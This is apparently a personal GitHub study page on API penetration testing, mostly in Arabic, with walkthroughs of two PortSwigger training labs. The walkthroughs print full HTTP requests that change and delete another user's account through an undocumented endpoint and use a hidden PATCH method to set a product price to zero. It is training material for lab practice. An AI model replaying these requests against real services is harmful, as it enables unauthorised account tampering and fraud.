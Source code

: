 # API testing

- <details>
     <summary>API Recon & documentation</summary>


  # 🛡️ API Testing - شرح مبسط
  
  ## 📌 ما هو **API Testing**؟
  - **API (Application Programming Interface)** هو الوسيط الذي يسمح للبرامج أو السيرفرات بالتواصل مع بعضها.
  - أي موقع ديناميكي (dynamic) يتكون من APIs:
    - مثال: عند تسجيل الدخول **login** → API تستقبل الـ username/password.
    - مثال: عند جلب **profile info** → API تسحب البيانات من قاعدة البيانات وتعيدها في صورة JSON.
  
  ⚠️ إذا كانت الـ API بها ثغرة → هذا قد يؤثر على **Confidentiality, Integrity, Availability (CIA)**.
  
  ---
  
  ## 📌 العلاقة بين Web Testing و API Testing
  - معظم ثغرات الويب (SQLi, XSS, Auth bypass) يمكن أن تظهر في APIs.
  - الفرق أن **API Testing** يكشف أحيانًا Endpoints غير مستخدمة في الواجهة الأمامية (front-end)، لكنها مدعومة على السيرفر → توسع الـ attack surface.
  
  ---
  
  ## 📌 خطوات الـ Recon (استكشاف API)
  
  ### 1. **Identify Endpoints** (تحديد الـ endpoints)
  الـ endpoint هو مكان استقبال الطلبات.
  
  مثال:
  ```http
  GET /api/books HTTP/1.1
  Host: example.com
  ```
  
  - `/api/books` → endpoint  
  - يعيد قائمة من الكتب
  
  مثال آخر:
  - `/api/books/mystery` → يعيد قائمة بكتب الغموض
  
  ---
  
  ### 2. **افهم كيفية التعامل مع الـ API**
  لكي تبدأ اختبار يجب أن تعرف:
  - ✅ الـ input parameters (إجباري / اختياري)  
  - ✅ الـ HTTP methods المدعومة (GET, POST, PUT, DELETE…)  
  - ✅ الـ media formats (JSON, XML)  
  - ✅ هل يوجد Rate limiting (عدد الطلبات المسموح بها)  
  - ✅ آلية Authentication (Token / API Key / JWT)  
  
  ---
  
  ## 📌 API Documentation (التوثيق)
  - **Human-readable**: توثيق مكتوب يشرح الأمثلة والاستخدام.  
  - **Machine-readable**: ملفات JSON/XML (مثل Swagger أو OpenAPI).  
  
  🔍 **أماكن شائعة للتوثيق**:
  - `/api`
  - `/swagger/index.html`
  - `/openapi.json`
  
  مثال: لو وجدت `/api/swagger/v1/users/123`  
  جرب أيضًا:
  - `/api/swagger/v1`  
  - `/api/swagger`  
  - `/api`  
  
  🛠 يمكنك استخدام **Burp Scanner** أو **Intruder** لتجربة common paths.
  
  ---
  
  ## 📌 الخلاصة
  - **API Testing = Web Testing + Hidden attack surface**
  - تبدأ بالـ **Recon**: ابحث عن endpoints + documentation  
  - افهم كيف تعمل الـ API (inputs, methods, auth)  
  - ثم اختبر الثغرات مثل:
    - **SQLi داخل JSON**
    - **Auth bypass بالـ tokens**
    - **Server-side Parameter Pollution (SSPP)**
    - **Excessive Data Exposure** (إرجاع بيانات حساسة/زائدة)
  

  
  </details>





- <details>
     <summary></summary>

     
     
     # 🛡️ API Testing 
     
     ## 1️⃣ Machine-readable Documentation (التوثيق القابل للمعالجة آليًا)
     - أحيانًا بتلاقي توثيق API في شكل **JSON / YAML** (زي Swagger أو OpenAPI).  
     - تقدر تستخدم Tools عشان تحللها أو تختبر الـ endpoints مباشرة.  
     
     🛠 الأدوات:
     - **Burp Scanner** → يقرأ OpenAPI docs ويعمل crawl & audit  
     - **OpenAPI Parser BApp** → تحليل OpenAPI داخل Burp Suite  
     - **Postman / SoapUI** → لاختبار الـ endpoints يدويًا أو أوتوماتيك  
     
     ---
     
     ## 2️⃣ Identifying API Endpoints (تحديد الـ endpoints)
     - حتى لو عندك documentation، لازم تراجع التطبيق بنفسك:  
       - ساعات الـ documentation قديمة أو ناقصة  
       - من خلال التطبيق نفسه ممكن تلاقي endpoints غير مذكورة  
     
     👀 أماكن محتملة للـ Endpoints:
     - **/api/** في الـ URLs  
     - **JavaScript files** → ممكن تحتوي API calls مخفية  
     - **Burp Scanner** → يلتقط بعض الـ endpoints  
     - **JS Link Finder BApp** → استخراج أعمق من ملفات JS  
     
     ---
     
     ## 3️⃣ Interacting with Endpoints (التفاعل مع الـ endpoints)
     - استخدم الأدوات:  
       - **Burp Repeater** → تجربة يدوية  
       - **Burp Intruder** → تجربة أوتوماتيكية  
     
     💡 جرب تغيّر:
     - **HTTP method** (GET, POST, PUT…)  
     - **Media type** (JSON, XML…)  
     - راقب **error messages** → ممكن تكشف تفاصيل عن الباك اند أو باراميترات إضافية  
     
     ---
     
     ## 4️⃣ Identifying Supported HTTP Methods
     - الـ **HTTP Method** يحدد نوع العملية:  
       - `GET` → جلب البيانات  
       - `PATCH` → تعديل جزئي  
       - `OPTIONS` → يكشف الـ methods المدعومة  
     
     👨‍💻 مثال على endpoint:
     ```
     GET /api/tasks        → يرجع قائمة المهام  
     POST /api/tasks       → ينشئ مهمة جديدة  
     DELETE /api/tasks/1   → يحذف مهمة برقم 1  
     ```
     
     🛠 Burp Intruder:
     - يحتوي على قائمة HTTP verbs جاهزة  
     - جربها تلقائيًا على endpoint لكشف methods إضافية  
     
     ⚠️ مهم: جرب على بيانات **قليلة الأهمية (low-priority)** لتجنب كسر أو تغيير بيانات production  
     
     ---
     
     ## 5️⃣ Identifying Supported Content Types (أنواع المحتوى)
     - الـ API غالبًا بتتوقع نوع محتوى محدد مثل `application/json`  
     - تغيير الـ Content-Type ممكن يفتح هجوم جديد  
     
     👀 الفوائد:
     - Trigger أخطاء تكشف معلومات  
     - Bypass دفاعات ضعيفة  
     - استغلال اختلاف المعالجة (مثال: آمن مع JSON لكن ضعيف مع XML)  
     
     🛠 Burp:
     - غيّر Header:
       ```http
       Content-Type: application/xml
       ```
     - وحوّل الـ body من JSON إلى XML  
     - **Content Type Converter BApp** يساعد في التحويل التلقائي بين JSON ↔ XML  
     
     ---
     
     ## 📌 الخلاصة
     - 📑 لو لقيت **Machine-readable docs** → حللها بالأدوات (Burp Scanner, Postman)  
     - 🔍 حتى مع docs → دايمًا اعمل Recon يدوي (URLs + JS files)  
     - 🎯 جرّب تتفاعل مع endpoints (HTTP methods, Content types)  
     - ⚡ الهدف: اكتشاف وظائف إضافية + ثغرات (SQLi, Auth bypass, Injection …)
     



     
  </details>































































































----




# **`API Testing Labs`**


<details>
     <summary>Lab: Exploiting an API endpoint using documentation</summary>

#### 1. login with **`wiener : peter`**
#### 2. try to update your email and intercept the request

```http
PATCH /api/user/wiener HTTP/1.1
Host: 0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Cookie: session=vW7MD6H4rzuStWRQySgwcgcxMJiD8Rkk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 28
Origin: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive


{
  "email":"user@EXAMPLE.com"
}
```

**`Response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 48


{
  "username":"wiener",
  "email":"user@EXAMPLE.com"
}
```

---

> ## what if we change user


```http
PATCH /api/user/carlos HTTP/1.1
Host: 0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Cookie: session=vW7MD6H4rzuStWRQySgwcgcxMJiD8Rkk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 28
Origin: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive


{
  "email":"plapla@EXAMPLE.com"
}
```

**`Response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 48


{
  "username":"carlos",
  "email":"plapla@EXAMPLE.com"
}
```


> ## now try to change method from **`patch`** to **`DELETE`**

```http
DELETE /api/user/carlos HTTP/2
Host: 0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Cookie: session=vW7MD6H4rzuStWRQySgwcgcxMJiD8Rkk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 28
Origin: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers


{
  "email":"user@EXAMPLE.com"
}
```

**`Response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 48


{
  "status":"user deleted"
}
```


> ## if we set path to **`/api`**

<img width="952" height="699" alt="image" src="https://github.com/user-attachments/assets/49f6beef-4bee-4ed1-a971-259b69a08f35" />


     
</details>




<details>
     <summary>Lab: Finding and exploiting an unused API endpoint</summary>

> 1. login as **`wiener : peter`**
> 2. select product and see the request


```http
GET /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

```


### **`response`**


```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 97


{
  "price":"$1337",
  "message":"Buy quick, we are low on stock! 4 purchased in the last 14 minutes!"
}
```

---

> ## first try **`OPTIONS`** header to see which methods are allowed


```http
OPTIONS /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

```


### **`response`**


```http
HTTP/2 405 Method Not Allowed
Allow: GET, PATCH
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```

> ## found that **`GET, PATCH`** only allowd
> - now change method to **``PATCH``**


```
```http
PATCH /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

```

### **`response`**

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 93


{
  "type":"ClientError",
  "code":400,
  "error":"Only 'application/json' Content-Type is supported"
}
```

> ## we found that content type must be json we will add this header
> - **`Content-Type: application/json`**
> - add json content with new price

```http
PATCH /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
Content-Type: application/json;

{
  "price":0
}


```

<img width="1434" height="540" alt="image" src="https://github.com/user-attachments/assets/bc003da5-54f5-49db-8f06-713ecb5022a1" />




     
</details>








































